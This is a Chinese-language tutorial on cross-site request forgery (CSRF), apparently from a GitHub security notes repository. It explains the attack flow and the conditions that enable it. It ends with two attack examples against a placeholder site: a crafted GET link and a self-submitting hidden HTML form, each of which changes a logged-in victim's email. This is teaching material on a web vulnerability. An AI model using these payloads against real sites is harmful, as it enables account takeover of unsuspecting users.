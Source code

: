 ## CSRF
### 1、介绍
![image](https://github.com/498946975/Security/blob/master/images/csrf_08.png)
```yaml
1、跨站请求伪造(也称为 CSRF)是一种 Web 安全漏洞
2、允许攻击者诱导用户执行他们不打算执行的操作
```
### 2、攻击过程
```yaml
1.用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A; 
2.在用户信息用过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A;
3.用户未退出网站A之前，在同一浏览器中打开一个TAB⻚访问网站B; 
4.网站B接受到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A;
5.浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。
  网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的 恶意代码被执行。
```
### 3、形成CSRF的条件
```yaml
1、一个功能操作。例如更改用户自己的密码
2、基于 Cookie的会话处理
3、没有不可预测的请求参数
    如：token（用完即焚），短信验证码等
```
### 4、GET请求，后面跟自己点参数，让用户点即可
```shell script
https://vulnerable-website.com/email/change?email=lx@qq.com # 用户浏览器已经登陆https://vulnerable-website.com，诱导用户点击，然后修改emial成功
```
### 5、POST请求，需要注意，隐藏标签type="hidden"
```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST"> <!-- 访问某个页面，这个页面是用户已经登陆的状态，发送post请求 -->
        <input type="hidden" name="email" value="lx@qq.com" />  <!-- 隐藏input标签，key是email，value是自己设定邮箱 -->
    </form>
    <script>
        document.forms[0].submit();     // 默认自动提交请求
    </script>
  </body>
</html>
```